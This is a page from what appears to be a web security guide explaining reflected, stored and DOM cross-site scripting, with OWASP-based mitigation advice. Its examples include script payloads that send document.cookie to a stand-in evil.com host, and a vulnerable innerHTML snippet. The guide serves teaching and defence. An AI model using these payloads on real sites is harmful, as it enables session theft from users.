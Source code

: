 ```yaml
---
title: Cross-site scripting (XSS)
sidebar_position: 8
---
```


# Cross-site scripting (XSS)


## The Attack

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/L5l9lSnNMxg">
</iframe>



## Reflected XSS

![Reflected XSS sample workflow](/img/rxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)_

### Keys

- The Attack is focused on the user input like crafted urls with mailicious payload.

### Example

It is very simple to add a malicious payload in a vulnerable website link.

```
http://website.com/search?keyword=<script>window.location='http://evil.com/?c='+document.cookie</script>
```

The victim will open this link and will be redirected to a malicious site with the cookie content in the URL.

Inside the malicious code we can add extra payloads like (ajax calls... )


## persistent XSS


![p-XSS sample workflow](/img/pxss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)_

### Keys

Also known as stored XSS. The malicious script comes from the website's database, so this attack requires few steps to succeed.

- In the first step the attacker will add a malicious payload to the server (so it will be stored).
- Later on the victims will access to the site and the malicious payload will be downloaded together with the legitimate content.

This attack can lead to Cookie theft, KeyLogging, Phishing...

### Example

The attacker adds a malicious payload in the comments section of the site.

```
POST "http://website.com/blog/post-1/comment", body{"<script>window.location='http://evil.com/?c='+document.cookie</script>}
```

Any user that visits the website will be vulnerable once this malicious comment is loaded.


## DOM XSS


![DOM-XSS sample workflow](/img/dom_xss.png)
_Image from [Christopher Makarem](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)_

### Keys 

If the attacker controls any input field value, they can easily add malicious values:

```js
const search = document.getElementById('search').value;
document.getElementById('results').innerHTML = `You searched for: ${search}`;
```

```
You searched for: <img src=error onerror='/* Evil payload */'>
```

### Notable incidents

- [The Telegraph | TweetDeck hack hits BBC and White House accounts](https://www.telegraph.co.uk/technology/twitter/10894635/BBC-and-White-House-accounts-in-TweetDeck-hack.html)
- [VICE | The MySpace Worm that Changed the Internet Forever](https://www.vice.com/en_us/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)


## The solution

There are no definitive solutions to avoid this attack but it can be highly mitigated.

## Mitigation

### [Keys from OWASP Cheat sheets for XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

- 0 - Never Insert Untrusted Data Except in Allowed Locations
- 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content
- 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
- 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
- 3.1 - HTML escape JSON values in an HTML context and read the data with `JSON.parse`
- 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
- 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
- 6 - Sanitize HTML Markup with a Library Designed for the Job
- 7 - Avoid JavaScript URL's


### [Keys from OWASP Cheat sheets for DOM XSS](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

- 1 - HTML Escape then JavaScript Escape Before Inserting Untrusted Data into HTML Subcontext within the Execution Context
- 2 - JavaScript Escape Before Inserting Untrusted Data into HTML Attribute Subcontext within the Execution Context
- 3 - Be Careful when Inserting Untrusted Data into the Event Handler and JavaScript code Subcontexts within an Execution Context
- 4 - JavaScript Escape Before Inserting Untrusted Data into the CSS Attribute Subcontext within the Execution Context
- 5 - URL Escape then JavaScript Escape Before Inserting Untrusted Data into URL Attribute Subcontext within the Execution Context
- 6 - Populate the DOM using safe JavaScript functions or properties
- 7 - Fixing DOM Cross-site Scripting Vulnerabilities


### Other
- The [Recommendations for HTTP Headers in this guide](/http_headers/)
- The [Best practices for Express in this guide](/best_practices/express)
- The [Best practices for React in this guide](/best_practices/react)



### Refs
- [ckarande | Top Overlooked Security Threats to Node.js Web Applications](https://speakerdeck.com/ckarande/top-overlooked-security-threats-to-node-dot-js-web-applications?slide=24)
- [Scott Smith | Cross Site Scripting (XSS)](http://scottksmith.com/blog/2015/06/22/secure-node-apps-against-owasp-top-10-cross-site-scripting/)
- [portswigger | Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [Medium | Persistent Cross Site Scripting (p-XSS)](https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554)
- [Medium | DOM-Based Cross Site Scripting (DOM-XSS)](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)
- [Medium | Reflected Cross Site Scripting (r-XSS)](https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a)
- [Computerphile | Cracking Websites with Cross Site Scripting](https://www.youtube.com/watch?v=L5l9lSnNMxg)
